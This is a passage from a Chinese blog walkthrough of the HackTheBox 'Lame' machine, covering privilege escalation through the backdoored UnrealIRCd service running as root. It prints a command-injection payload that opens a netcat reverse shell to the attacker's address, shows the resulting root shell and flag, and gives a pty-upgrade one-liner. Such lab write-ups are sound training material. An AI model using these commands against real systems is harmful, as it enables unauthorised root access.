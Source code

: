 因为网络问题没法下载5622.tar.bz2，这边先略过，可见参考文章2：privesc2部分

### 提权3 : UnrealIRCd Backdoored

推测由于网络问题，`netstat -nltp` 数据没能回显过来，从结果中发现6697端口，马上想到 IRC。

`ps auxww | grep -i unreal` 查看unrealIRC进程，发现 `UnrealIRCd` 以root权限运行。

```shell
 ps auxww | grep -i unreal
 root     5612 0.0 0.4   8540 2488 ?       S   01:43   0:00 /usr/bin/unrealircd
 root     6522 0.0 0.1   1784   548 ?       R   06:01   0:00 grep -i unreal
```

根据这篇文章 unrealircd-3281-backdoored ，我们可以利用此服务来创建后门并拿到root权限	

按照参考文章2，做一遍

```shell
 aemon@lame:/tmp$ nc 127.0.0.1 6697
 nc 127.0.0.1 6697
 :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
 :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn&#39;t resolve your hostname; using your IP address instead
 ERROR :Closing Link: [127.0.0.1] (Ping timeout)
```

得到 Metasploitable 的输出，这表明我们在正确的方向。为了方便使用后门，我们可以使用已知的connect-back shell方法。

```shell
 daemon@lame:/tmp$ echo &#34;AB; nc -e /bin/sh 10.10.14.2 5555&#34; | nc 127.0.0.1 6697         
 echo &#34;AB; nc -e /bin/sh 10.10.14.2 5555&#34; | nc 127.0.0.1 6697
 :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
 :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn&#39;t resolve your hostname; using your IP address instead
```

另一边

```shell
 └─$ nc -lvnp 5555   
 listening on [any] 5555 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 39370
 whoami
 root
 cat /root/root.txt
 29ad7975c49f5ccb49b735a93efbfc4e
```

测试发现IRC的6667和6697端口都可以。

## 他山之石

- https://hackpentest.in/hackthebox-lame/  使用了python获取一个完整的tty SHELL `python -c &#39;import pty;pty.spawn(&#34;/bin/bash&#34;)&#39;`，同时提供了非MSF思路。
- https://coldfusionx.github.io/posts/LameHTB/  使用了crackmapexec ， 根据现有exp自己复现了利用代码；distccd的攻击思路、提权思路



---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/hackthebox-lame/  

